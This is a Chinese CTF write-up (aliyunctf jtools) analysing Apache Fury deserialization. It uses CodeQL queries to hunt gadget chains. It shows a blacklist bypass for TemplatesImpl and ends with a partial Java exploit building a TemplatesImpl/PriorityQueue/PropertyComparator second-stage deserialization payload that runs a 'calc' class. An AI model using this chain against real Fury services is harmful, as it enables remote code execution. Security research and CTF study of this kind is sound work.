前言：当时看不懂这个，无意间看了下
hessian反序列化，然后就有想法和思路了，然后看网上文章也是没有看到那个把这个讲明白的（也可能是我看得少hhh）
这类非常规反序列化，就是查看他
序列化和反序列化的逻辑，然后找可以利用的方法有哪些然后作为链子的开头（讲的有点笼统，下面来点实际的
环境：用到aliyunctf-jtools的jar包，下载链接比赛官网应该还有
calc calc = new calc();
HashMap hashMap = new HashMap();
hashMap.put("val", calc);
Fury fury = Fury.builder().withLanguage(Language.JAVA)
.requireClassRegistration(false)
.build();
byte[] serialize = fury.serialize(hashMap);
Fury ser_fury = Fury.builder().withLanguage(Language.JAVA).requireClassRegistration(false).build();
Object deserialize = ser_fury.deserialize(serialize);
这个是我最初的一个demo
0x01 序列化&反序列化 逻辑
- 反序列化
直接看是怎么反序列化的吧，正常反序列化对象，会到这个default:中（调试到下图，前面的地方我就没记录，感觉记多了，文章挺臃肿，看得烦），然后调用每个对象的ClassInfo中设置的serializer#read方法进行还原这个对象，然后上面还有一些case 我简单看了没什么操作空间，都是还原一些常用类型（int什么的），而这个serializer是在序列化中设置的，那我们去看看序列化吧

- 序列化
Fury有一个map存储了一些类的ClassInfo，这里类，序列化的时候会直接从这个map获取属于自己的ClassInfo


然后看到有86对值，也就是有86个read方法可以查看相关的代码逻辑有没有可以利用的点（链子起点）
当然除了map中记录之外的类，Fury也会生成serializer为其实现序列化
this.addSerializer(cls, this.createSerializer(cls));
跟进this.createSerializer，然后一直到getSerializerClass()
这里会对要序列化的class进行一些检测，然后在调用this.getObjectSerializerClass()获取Serializer的class，这里检测我主要关注了Serializable.class这个点，还有requireJavaSerialization()这个是因为里面有关于Serializable.class的判断，然后发现只要class不是以java开头即使没继承Serializable.class也可以被Fury反序列化，初步推断Fury是可以反序列化没继承Serializable.class的类

然后跟this.getObjectSerializerClass()

先会有一个checkNotInDisallowedList()黑名单检测，后面继续调试

下面这个地方跟进去

然后到下面这个classLoader.loadClass，为什么要跟这个地方等下就知道了

0x02 动态生成的serializer
classloader是ClassLoaderUtils$ByteArrayClassLoader来加载的，然后会到父类的loadClass方法，然后再到下图的findClass() 生成class

他这个serializer是动态生成，到时候我们调试是调试不了其read()方法的，而这里我们可以得到其class的byte[]，下面后续的操作，就是通过加载byte[]生成class然后通过反射( newInstance() )得到serializer对象

我们也可以通过这个byte[]生成class文件，查看其代码逻辑
byte[] bytes = {-54, -2, -70, -66, ...};
FileOutputStream fileOutputStream = new FileOutputStream("test.class");
fileOutputStream.write(bytes);
fileOutputStream.close();
这里我是生成了一个TemplatesImpl.class的serializer（为什么选这个，因为经典纯牛奶）
在调试那个黑名单检测时，运行下面这个就能绕过那个地方，然后生成我们的serializer
DEFAULT_DISALLOWED_LIST_SET.map.remove("com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl")
然后只有this.readAndSetFields里面逻辑能审计下，但是基本上也没看到什么反序列化后对方法的调用也可能是类没选对，但是那个(就是这个class怎么生成这些的，感兴趣的可以再深入分析分析)

0x03 链子查找
回到之前的86个read方法，这里我其实想起了hessian反序列化的hashmap，然后我反序列化了一个hashmap
看到下面这里，会先反序列化key和value，然后进行map.put，这里不就能进行利用了么（对象调用）
hash,hashcode,equals都能利用了哇

然后我们在看到HashMapSerializer上面的上面是继承AbstractMapSerializer，其再继承Serializer
86个read我总不能挨个去看吧，但是我们起点大致可以设置为继承Serializer的read方法
思路 这里大致就两种吧
- 通过read为起点，到sink点
- 通过read为起点，到
jdk原生反序列化，readobject再到sink点
sink点
source点自然是
继承Serializer的read方法起初是用tabby尝试找链子的，然后感觉tabby找得有点力不从心。然后去折腾ql了,也折腾了会吧。相对来说ql给我的感觉会复杂很多，然后自我感觉这篇文章后面内容不是很好，想着写一半了都，还是完个结吧
先讲sink点吧，因为跟思路对应些，有点照着答案找链子的意思了（苦笑
这里fury本身自带200+类的过滤，然后出题人又加了一个com.feilong.lib的过滤，所以也能往二次反序列化这个方向想吧
那也就是先找readObject点了呗
import java
// 定义 ObjectInputStream 及其子类类型
class OISFamily extends RefType {
OISFamily() {
this.hasQualifiedName("java.io", "ObjectInputStream") or
this.getASupertype+().hasQualifiedName("java.io", "ObjectInputStream")
}
}
// 查找所有调用
from MethodCall call, Method method
where
method.hasName("readObject") and
method.getDeclaringType() instanceof OISFamily and
call.getMethod() = method and
not call.getEnclosingCallable().getDeclaringType().getQualifiedName().matches("%com.feilong.lib%") and
call.getEnclosingCallable().getName()!="readObject"
select call, call.getEnclosingCallable().getName(),call.getEnclosingCallable().getDeclaringType().getQualifiedName()

看了下最有机会的是IoUtil和JavaSerializer吧，其他方法不太可能调用到
然后就去看怎么调用到JavaSerializer，然后我又去把序列化和反序列化的流程又去看了篇，得出调用不了（不在map里，其他点也没发现能调用到的），估计是专门fury.register才行,用来提高兼容性的 感觉www。然后还去想了下能不能从序列化byte[]里面构造出JavaSerializer，让他反序列化去调用
看了反序列化对byte[]的处理发现不行hh，他map中Serializer，在序列化byte[]里面会存一个索引，反序列化的时候直接去map调用对应索引得到对应的Serializer，而不是map中，会和序列化一样的步骤去newSerializer。所以也操作不了
那就把点看到IoUtil，然后这里思路就应该先从read想办法往这个点调用了，直接查出来的有很多都是走clone()的。后面看有没有机会再说，先把wp的那条整了，这里一直往上找可以到AbstractConverter#convert
我觉得ql不刻意写，应该还不能通过cb getter那个点(不只是getter)到get触发invoke再到convert吧
这里就分为两段了，后面这段我就直接找invoke到convertInternal（这里result有很多，就直接先写的invoke的）
/**
@kind path-problem
*/
import java
import semmle.code.java.dataflow.FlowSources
class GetMethod extends Method {
GetMethod(){
this.getDeclaringType().getASupertype*().hasQualifiedName("java.lang.reflect", "InvocationHandler")
and
this.getName().matches("invoke")
}
}
class LookupMethod extends Method {
LookupMethod() {
this.getName()="convert" and
this.getDeclaringType().getQualifiedName().matches("cn.hutool.core.convert.AbstractConverter%")
}
}
query predicate edges(Method a, Method b) {
a.polyCalls(b)
}
from GetMethod source, LookupMethod sink
where edges+(source, sink)
select source, source, sink, "$@ $@ to $@ $@" ,
source.getDeclaringType(),source.getDeclaringType().getName(),
source,source.getName(),
sink.getDeclaringType(),sink.getDeclaringType().getName(),
sink,sink.getName()
可以看到这里这条和wp中还挺符合的

source点
然后这里找到read到compare就没那么像的了
/**
@kind path-problem
*/
import java
import semmle.code.java.dataflow.FlowSources
class GetMethod extends Method {
GetMethod(){
exists(Method m,Parameter p|
m.hasName("read") and
m.getDeclaringType().getASupertype*().getQualifiedName().matches("org.apache.fury.serializer.Serializer%") and
exists(m.getAnOverride()) and
p.getType().(RefType).hasQualifiedName("org.apache.fury.memory", "MemoryBuffer") and
p.getName() != "p0" and
m = p.getCallable() and
this = m
)
}
}
class LookupMethod extends Method {
LookupMethod() {
exists(MethodCall a|
a.getCallee().getName()="getProperty"
and this = a.getCaller()
)
}
}
query predicate edges(Method a, Method b) {
a.polyCalls(b)
}
from GetMethod source, LookupMethod sink
where edges+(source, sink)
and sink.getDeclaringType().getQualifiedName().matches("com.feilong.core.util.comparator.PropertyComparator%")
select source, source, sink, "$@ $@ to $@ $@" ,
source.getDeclaringType(),source.getDeclaringType().getName(),
source,source.getName(),
sink.getDeclaringType(),sink.getDeclaringType().getName(),
sink,sink.getName()


可以看到是有偏差的，然后这里read方法有很多，其实很多可以排除，因为要调用到才行 & 能储存对象才行（比如map）这种，因为不能储存对象的话，你后续gadget也无法展开（因为你起点类最少要满足能还原一个对象，并使这个对象调用一个方法吧）。然后我看了大多结果，很多都可以排除掉，也就是可以去看他定义了的mapSerializer中有那些，然后看class类型进行筛选，然后对codeql source进行限制。然后还有很多read后面也是指向CollectionSerializer#read，所以这个点多少也会去研究下。
然后正常思路肯定不会直接就找compare方法嘛（纯照答案找），思路的话我觉得
- 可以有个
sinkmethod集合，然后找这个集合（就是误报很多就是了hh） - edges几层，然后看这几层里面有那些
函数可以利用，但是这个误报就太太大了
然后这里compare不是没找到对应的链子，我去看了下jdk的类，codeql是怎么处理的，然后发现是调用的class文件，而且感觉节点也出了问题，比如siftUpUsingComparator这个方法就找不到。
import java
from RefType queueType, Method m
where
m.getDeclaringType().getASupertype*().getQualifiedName().matches("java.util.PriorityQueue%")
select m,m.getLocation().getFile().getAbsolutePath()
然后我去找个了jdk的源码一起加到数据库里，但是生成要很久，而且很卡（我是直接反编译，然后codeql database create db-name --language=java --source-root=./sources --build-mode=none，生成的）有好的方法，希望师傅们安利下hh（win10）
生成之后原本的没找出来，treeMap的找出来，hhh。

然后用treemap改了下开头是可以打的，构造有些小问题，防止生成的时候触发poc，也是用最暴力的反射解决了
package tostring_test;
import cn.hutool.core.map.BiMap;
import cn.hutool.core.map.MapProxy;
import cn.hutool.core.util.ReflectUtil;
import cn.hutool.core.util.SerializeUtil;
import com.feilong.core.util.comparator.PropertyComparator;
import com.feilong.lib.collection4.iterators.FilterIterator;
import com.feilong.lib.digester3.ObjectCreationFactory;
import com.google.common.collect.ArrayListMultimap;
import com.google.common.collect.Multimap;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import javassist.ClassPool;
import org.apache.fury.Fury;
import org.apache.fury.config.Language;
import org.apache.fury.serializer.JavaSerializer;
import java.lang.invoke.SerializedLambda;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationTargetException;
import java.lang.reflect.Proxy;
import java.util.HashMap;
import java.util.Map;
import java.util.PriorityQueue;
import java.util.TreeMap;
import com.google.common.base.Predicate;
public class compare_test {
static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
Field declaredField = obj.getClass().getDeclaredField(fieldName);
declaredField.setAccessible(true);
declaredField.set(obj, value);
}
public static void main(String[] args) throws Exception, IllegalAccessException {
byte[] bytes = ClassPool.getDefault().get(calc.class.getName()).toBytecode();
TemplatesImpl tmpl = new TemplatesImpl();
Field bytecodes = TemplatesImpl.class.getDeclaredField("_bytecodes");
bytecodes.setAccessible(true);
bytecodes.set(tmpl, new byte[][]{bytes});
Field name = TemplatesImpl.class.getDeclaredField("_name");
name.setAccessible(true);
name.set(tmpl, "hello");
TemplatesImpl tmpl1 = new TemplatesImpl();
Field bytecodes1 = TemplatesImpl.class.getDeclaredField("_bytecodes");
bytecodes1.setAccessible(true);
bytecodes1.set(tmpl1, new byte[][]{bytes});
Field name1 = TemplatesImpl.class.getDeclaredField("_name");
name1.setAccessible(true);
name1.set(tmpl1, "hello2");
///templates
// String prop = "digester";
String prop = "digester";
PropertyComparator propertyComparator = new PropertyComparator(prop);
Map TreeMap = new TreeMap(propertyComparator);
Object templatesImpl1 = tmpl1;
Object templatesImpl = tmpl;
PropertyComparator propertyComparator1 = new PropertyComparator("outputProperties");
PriorityQueue priorityQueue1 = new PriorityQueue(2, propertyComparator1);
ReflectUtil.setFieldValue(priorityQueue1, "size", "2");
Object[] objectsjdk = {templatesImpl1, templatesImpl};
setFieldValue(priorityQueue1, "queue", objectsjdk);
/////jdk
byte[] data = SerializeUtil.serialize(priorityQueue1);
Map hashmap = new HashMap();
hashmap.put(prop, data);
MapProxy mapProxy = new MapProxy(hashmap);
